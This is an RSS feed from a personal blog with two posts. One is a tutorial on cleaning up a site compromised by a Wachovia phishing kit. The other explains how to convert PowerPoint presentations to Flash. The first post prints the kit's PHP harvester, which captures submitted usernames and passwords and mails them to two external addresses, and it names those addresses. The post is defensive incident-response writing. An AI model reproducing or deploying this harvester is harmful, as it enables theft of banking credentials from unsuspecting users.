





<?xml version="1.0" encoding="UTF-8"?>
<rss version="2.0"
	xmlns:content="http://purl.org/rss/1.0/modules/content/"
	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
	xmlns:dc="http://purl.org/dc/elements/1.1/"
	xmlns:atom="http://www.w3.org/2005/Atom"
	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
	>

<channel>
	<title>Chronosynclastic Infundibulum &#187; web</title>
	<atom:link href="http://www.semanticoverload.com/tag/web/feed/" rel="self" type="application/rss+xml" />
	<link>http://www.semanticoverload.com</link>
	<description>The world through my prisms</description>
	<lastBuildDate>Thu, 07 Apr 2011 17:36:17 +0000</lastBuildDate>
	<language>en-US</language>
	<sy:updatePeriod>hourly</sy:updatePeriod>
	<sy:updateFrequency>1</sy:updateFrequency>
	<generator>http://wordpress.org/?v=3.5</generator>
		<item>
		<title>If your site has been compromised with phishing attack code&#8230;</title>
		<link>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/</link>
		<comments>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/#comments</comments>
		<pubDate>Tue, 17 Mar 2009 07:30:42 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[legal]]></category>
		<category><![CDATA[technology]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[attack]]></category>
		<category><![CDATA[phishing]]></category>
		<category><![CDATA[php]]></category>
		<category><![CDATA[scam]]></category>
		<category><![CDATA[security]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[wachovia]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=316</guid>
		<description><![CDATA[I recently recevied the following email: To whom it may concern: Please be aware that Wachovia Corporation (“Wachovia”) is the owner of numerous United States and foreign trade marks and services marks used in connection with its financial services and products (the &#8220;Wachovia Marks&#8221;), including the Wachovia wordmark and Wachovia logo.  Wachovia has expended substantial [...]]]></description>
				<content:encoded><![CDATA[<p>I recently recevied the following email:</p>
<blockquote><p>To whom it may concern:</p>
<p>Please be aware that Wachovia Corporation (“Wachovia”) is the owner of numerous United States and foreign trade marks and services marks used in connection with its financial services and products (the &#8220;Wachovia Marks&#8221;), including the Wachovia wordmark and Wachovia logo.  Wachovia has expended substantial resources to advertise and promote its products and services under the marks and considers the marks to be valuable assets of Wachovia.</p>
<p>It has come to our attention that your company is hosting a known active phishing site.  The active phishing site displays the Wachovia Marks and is intended to defraud customers in an attempt to capture and use their identity.  Network Whois records indicate the IP address of the phishing site is registered to your Internet space.</p>
<p>Accordingly, we request that your site bring down the Phishing web site at:<br />
&lt;&lt; http://&lt;my website&gt;/home/plugins/editors-xtd/confirm.html &gt;&gt;</p></blockquote>
<p>So that&#8217;s how I knew that my site had been compromised by hackers and a <a href="http://en.wikipedia.org/wiki/Phishing">phishing attack</a> code had been injected into my site. <strong>If it has happened to you, do you know what is the right thing to do? How do you fix it? </strong>Well, here is what I did, and I think it is worthwhile to share this information so that it may be useful to others.. So here goes.<br />
<span id="more-316"></span></p>
<h3>Step 1. Disable Your Site</h3>
<p>First, disable your site, bring it down temporarily. The last thing you want is for more people to be scammed by a hacker who compromised your site. You can do that by disabling all access to all the files within your website. If the website is running on unix/linux you can do a &#8220;chmod -R 000 &lt;website-home-directory&gt;&#8221; (Refer to the <a title="Chmod tutorial" href="http://www.zzee.com/solutions/chmod-help.shtml">chmod tutorial here</a>). For those using cpanel, go to the file manager and change the permissions of the document root for the website.</p>
<h3>Step 2. Investigate the Offending Webpage</h3>
<p>Now that no more unsuspecting users can be affected by this phishing attack. Now we dig into the offending webpage that is causing the problem. In my case it was: http://&lt;my website&gt;/home/plugins/editors-xtd/confirm.html</p>
<p>I opened up the html file, and this is what I saw:</p>
<blockquote><p>&#8230;&#8230;</p>
<p>&lt;html xmlns=&#8221;http://www.w3.org/1999/xhtml&#8221;&gt;&lt;head&gt;</p>
<p>&lt;title&gt;Wachovia &#8211; Personal Finance and Business Financial Services&lt;/title&gt;</p>
<p>&#8230;&#8230;</p></blockquote>
<p>Clearly, someone was impersonating the Wachovia website. Now, with phishing, someone is trying to steal your username and password by impersonating some crediable website that needs your username and password to get into. In HTML, this is typically accomplished through &#8216;forms&#8217;, which starts with a `&lt;form&gt;&#8217; tag in HTML. So I dug through the code and I saw two form tags.</p>
<p>The first one was:</p>
<blockquote><p>&lt;form method=&#8221;get&#8221; action=&#8221;http://search.wachovia.com/selfservice/microsites/wachoviaSearchEntry.do?&#8221; name=&#8221;searchForm&#8221; onsubmit=&#8221;return verifyQuery(this.searchString);&#8221;&gt;</p></blockquote>
<p>&#8230;..</p>
<p>This looks fine because the &#8216;action&#8217; parameter points to http://search.wachovia.com/selfservice&#8230;. which is a search script on the Wachovia website. So anyone filling you this form is sendin their data to the Wachovia website and the hacker will not get any information from it.</p>
<p>Now to the second form tag:</p>
<blockquote><p>&lt;form method=&#8221;post&#8221; action=&#8221;screen.php&#8221; name=&#8221;uidAuthForm&#8221; id=&#8221;uidAuthForm&#8221; onsubmit=&#8221;return submitLogin(this)&#8221;&gt;</p>
<p>&#8230;&#8230;</p></blockquote>
<p>Aha! The smoking gun! Why? Well, look at the &#8216;action&#8217; parameter in this &#8216;form&#8217; tag, it says &#8216;screen.php&#8217; which is clearly not a script that is on the Wachovia servers, but something that is hosted on my website! So the hackers installed another script on my system to phish the username and passwords. Now I go see what&#8217;s inside this &#8216;screen.php&#8217; file that is located in the same directory as the &#8216;confirm.html&#8217; file we have been looking at so far.</p>
<h3>Step 3. Isolate the script that is doing the actual phishing attack and find the offenders</h3>
<p>So I open up the &#8216;screen.php&#8217; file and this is what I find:</p>
<blockquote><p>&lt;?php</p>
<p>$ip = getenv(&#8220;REMOTE_ADDR&#8221;);<br />
$datamasii=date(&#8220;D M d, Y g:i a&#8221;);<br />
$userid = $HTTP_POST_VARS["userid"];<br />
$password = $HTTP_POST_VARS["password"];<br />
$mesaj = &#8220;Hello<br />
userid : $userid<br />
password : $password<br />
&#8212;&#8212;&#8211;0WN3d By Louis&#8212;&#8212;&#8212;&#8212;&#8212;-<br />
IP : $ip<br />
DATE : $datamasii<br />
&#8220;;</p>
<p>$recipient = &#8220;cashbug5010@gmail.com,smithgreen@hotmail.com&#8221;;<br />
$subject = &#8220;Take What U need But Make Sure U Cash It Out !!!&#8221;;</p>
<p>mail($recipient,$subject,$mesaj);<br />
mail($to,$subject,$mesaj);<br />
header(&#8220;Location: http://www.wachovia.com/helpcenter/0,,,00.html&#8221;);<br />
?&gt;</p></blockquote>
<p>So here we are! Gotcha! Check out the line &#8216;$recipient = &#8220;cashbug5010@gmail.com,smithgreen@hotmail.com&#8221;;&#8217; Clearly, the phishing attack was being carried out by the following two email addresses: cashbug5010@gmail.com and smithgreen@hotmail.com. Now that I have this much information, what do we do next?</p>
<h3>Step 4. Inform the Authorities</h3>
<p>We give this information to the authorities who can carry the investigation forward. And who are they? First, respond back to the email address that alerted you of this phishing attack (do a &#8216;reply all&#8217; if there were multiple recipients/Cc&#8217;s to the email you received). Also, copy phishing-report@us-cert.gov and cert@cert.org to this email and just give them a copy of the phishing code (in this case it was the file &#8216;screen.php&#8217;) and the offending email addresses you found.</p>
<p>As for now, that is all you can do, and just co-operate with the authorities if they need more information.</p>
<h3>Step 5. Quarantine the Malicious Code and Restore Your Website</h3>
<p>Quarantine the files (by disabling their permission to &#8217;000&#8242;) and now that the code has been quarantined, you can bring your website up again by setting the permission back to as they were earlier (except for the offending code).</p>
<p><strong>DO NOT DELETE THE MALICIOUS CODE BECAUSE IT IS EVIDENCE AGAINST THE PHISHING ATTACK AND EXONERATES YOU! </strong>Otherwise, the authorities may pursue you as an accessory to the crime!</p>
<h3>Step 6. Inform Google That Your Site is Safe Again</h3>
<p>Now, note that the odds are that Google has already put a notice out against your site as a source of a phishing attack. So go to the following URL <a href="http://www.google.com/safebrowsing/report_error/">http://www.google.com/safebrowsing/report_error/</a> to let Google know that the problem has been taken care off and you site is safe again.</p>
<p>And that&#8217;s all you can do for the moment. Make sure your site is secure and you haven&#8217;t given permission to any of your directories to be writable by anyone except you. As for preventing future security breaches, it is always a cat-and-mouse game with hackers and like of you getting smarter and better than the other.</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/feed/</wfw:commentRss>
		<slash:comments>7</slash:comments>
		</item>
		<item>
		<title>Making Your Presentations Portable</title>
		<link>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/</link>
		<comments>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/#comments</comments>
		<pubDate>Mon, 21 Apr 2008 22:32:18 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[AuthorPoint Lite]]></category>
		<category><![CDATA[flash]]></category>
		<category><![CDATA[narration]]></category>
		<category><![CDATA[portable]]></category>
		<category><![CDATA[powerpoint]]></category>
		<category><![CDATA[swf]]></category>
		<category><![CDATA[windows]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=150</guid>
		<description><![CDATA[I had the following problem(s): I had a fairly large presentation which I had to share among several people for review. Not everyone was running the same version of Powerpoint, and not everyone used Windows. People who wouldn&#8217;t be able to make it to my actual presentation wanted to be able to view it (along [...]]]></description>
				<content:encoded><![CDATA[<p>I had the following problem(s):</p>
<ul>
<li>I had a fairly large presentation which I had to share among several people for review.</li>
<li>Not everyone was running the same version of Powerpoint, and not everyone used Windows.</li>
<li>People who wouldn&#8217;t be able to make it to my actual presentation wanted to be able to view it (along with the voice narration) later.</li>
<li>I wanted it to be accessible and usable by everyone regardless of the OS, the browser, or the presentation software they were using.</li>
</ul>
<p>I figured this was a pretty common problem that many people face and a documented solution would be nice. More so, since someone I demonstrated this solution to now swears by it and can&#8217;t thank me enough. So I figured, why not spread the knowledge :) (Unfortunately, this solution works only if you are using Windows XP/Vista. Sorry, I couldn&#8217;t find the right tools to make it work on MAC OS X.)</p>
<p>Here&#8217;s the bird&#8217;s eye view of my solution:</p>
<ol>
<li>Prep your presentation to be made &#8216;complete&#8217; and &#8216;kiosk-ready&#8217;.</li>
<li> <a href="http://www.download.com/AuthorPOINT-Lite/3000-2075_4-10719205.html">Download and install AuthorPoint Lite</a>.</li>
<li> Import the presentation into AuthorPoint Lite, and preserve the rehearse timings, animations, and (optionally) narration.</li>
<li> Convert the presentation to flash using AuthorPoint Lite.</li>
<li>Upload the generated swf file online for the world to see!</li>
<li> The End.</li>
</ol>
<p><span id="more-150"></span></p>
<h3>Prepping your presentation</h3>
<p>Before you can make a presentation portable, you have got to make sure that the presentation itself has enough information in it to be portable. Also, you have to ensure that the presentation have been configured so that the tools you will use to make it portable can use it to advantage.</p>
<p>So here&#8217;s how you would go about the job:</p>
<p><em><span style="text-decoration: underline;">Ensure all information is available</span></em></p>
<p>When are making a presentation portable, then, more often than not, the people who will access it will not have the luxury of you walking through the presentation for them. So make sure you have notes for each slide for the presentation to be understandable on its own, even without the speaker present. It often a good idea to include the text of your narration for each slide in the Slide Notes section.</p>
<p><em><span style="text-decoration: underline;">Recording Narration</span></em></p>
<p>You also have the choice of recording your narration. You can do this if you would like people to be able to view and <em>hear</em> your presentation online. In order to record your presentation (Assuming you have a workgin microphone to record) you need to do the following:</p>
<ul>
<li>Ensure that you have no automatic animations set. You can do that as follows:
<ol>
<li> Click on the Slide Show menu and choose Custom Animation.</li>
<li>Click on the first item in the Animation Order box on the Order &amp; Timing tab.</li>
<li>Select the On Mouse Click radio button under Start Animation as shown in the figure below.<a href="../../../wp-content/uploads/2008/04/custom-animation.gif"></a></li>
</ol>
</li>
<li> Test your microphone by opening Slide Show -&gt; Record Narration -&gt; Set Microphone Level button. You’ll see the Microphone Check dialog box pop up. Set the level appropriately as shown below:<a href="../../../wp-content/uploads/2008/04/test-microphone.gif"></a></li>
<li> You can adjust the sound quality if you like:<br />
<a href="../../../wp-content/uploads/2008/04/sound-quality.gif"></a></li>
<li> DO NOT check the &#8216;Link the Narrations&#8217; checkbox! This option being unchecked is very important for portability!</li>
<li> Now start recording you narration and manually click through the slides (and animation) as you narrate into the microphone. You can stop anytime by pressing [Esc]. After you reach the last slide, or after you press [Esc], PowerPoint will ask if you&#8217;d like to save the slide timings. Click No. (As shown below):<br />
<a href="../../../wp-content/uploads/2008/04/save-slide-timtings-dialong.gif"></a></li>
<li> Now you can browse through the slides and review your narration by clicking on the  icon. You can delete the narration on each slide and record the narration if necessary.</li>
</ul>
<p><em><span style="text-decoration: underline;">Rehearsing Timing</span></em></p>
<p>Click on the Slide Show menu and choose Rehearse Timings. You&#8217;ll immediately be transferred into Slideshow View, and the narration should begin. You’ll see a Rehearsal toolbar appear:</p>
<p><a href="../../../wp-content/uploads/2008/04/rehearse-timing.gif"></a></p>
<p>Advance through the presentation by advancing to the next slide when the narration for each slide is complete. Also make sure that you step through the animation appropriately. When you&#8217;ve scrolled through the entire presentation, PowerPoint will again ask if you&#8217;d like to save the timings. Click Yes.</p>
<p>Now your presentation is self-contained and complete. However, it is still a .ppt file. To make it portable, you need to convert it to a more portable format. My choice is ShockWave File, or Flash format.</p>
<h3>AuthorPoint Lite</h3>
<p><a title="AuthorPoint Lite" href="http://www.authorgen.com/authorpoint-lite-free/powerpoint-to-flash-converter.aspx">AuthorPoint Lite</a> is a free Powerpoint-to-Flash converter. The neat thing about this software is that it can import all the settings from a powerpoint slide including narration, rehearsed timing, custom animation etc. <a title="AuthorPoint Lite Review" href="http://www.freewaregenius.com/2007/08/01/authorpoint-lite/">Here is a great review on AuthorPoint Lite</a>.</p>
<ul>
<li>Download and install <a title="AuthorPoint Lite" href="http://www.authorgen.com/authorpoint-lite-free/powerpoint-to-flash-converter.aspx">AuthorPoint Lite</a></li>
<li>Import your presentation into AuthorPoint Lite.</li>
<li>Save it as a swf file.</li>
</ul>
<h3>Uploading the swf file</h3>
<p>Now upload the saved swf file to your webserver, and provide a link to it on your website. This swf file is your presentation complete with your narration, animation, slide timings, your slide notes, etc. And the best part is that sinceits a swf file, any browser with a flash plugin can play this file! Truly portable!</p>
<p>Enjoy</p>
<h3>The End</h3>
<p>:)</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/feed/</wfw:commentRss>
		<slash:comments>5</slash:comments>
		</item>
	</channel>
</rss>
